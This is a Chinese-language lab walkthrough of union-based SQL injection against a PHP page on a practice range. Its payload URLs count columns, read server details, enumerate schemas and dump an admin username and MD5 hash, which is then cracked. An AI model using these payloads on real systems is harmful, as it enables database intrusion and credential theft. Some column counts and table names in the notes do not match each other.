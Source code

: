 内网靶场练习：

构造 “http://*.*.30.11:90/sec_show.php?cid=1&aid=1 ”判断注入点 id=-1 报错，有注入
构造“http://*.*.30.11:90/sec_show.php?cid=1&aid=1 order by 21 ”
order by 猜字段，一个个试出来，order by 22 报错   order by 21成功 共有21个字段 
http://*.*.30.11:90/sec_show.php?cid=1&aid=-1  union select 1,2,@@hostname,version(),5,user(),7,8,9,10,11,12,13,14,15,16,17,18,19,20
查看目标电脑用户名:@@hostname  SQLInjection1   查看版本:version()  5.6.12-log    查询当前用户:user()   root@127.0.0.1  数据库：database()  sqlinj_1

" cid=1&aid=-1  union select 1,2,3,4,5,@@datadir,7,8,9,10,11,12,13,14,15,16,17,18,19,20 -- "
查看当前目录:@@datadir   c:\wamp\bin\mysql\mysql5.6.12\data\

构造“cid=1&aid=-1%20union%20select%201,2,3,4,5,group_concat(schema_name),7,8,9,10,11,12,13,14,15,16,17,18,19,20%20from%20information_schema.schemata”
发现页面上出现3 4 6 字段，说明这三处都可以进行注入：

通过注入查看sqlinj_1库里面的表
cid=1&aid=-1%20union%20select%201,2,3,table_name,5,table_schema,7,8,9,10,11,12,13,14,15,16,17,18,19,20 from information_schema.tables where table_schema='sqlinj_1'-- 
调用上面查询出sqlinj_1数据库查出库中wit_admin表


查看users表里面的列:
"cid=1&aid=-1%20union%20select%201,2,3,table_name,5,column_name,7,8,9,10,11,12,13,14,15,16,17,18,19,20 from information_schema.columns where table_schema='sqlinj_1' and table_name='wit_admin' --"
获取列名为adm_id

盲猜字段 adm_admin adm_pass
cid=1&aid=-1%20union%20select%201,2,3,adm_user,5,adm_pass,7,8,9,10,11,12,13,14,15,16,17,18,19,20%20from%20sqlinj_1.wit_admin --

账号：admin   密码：e10adc3949ba59abbe56e057f20f883e ----md5----> 123456 
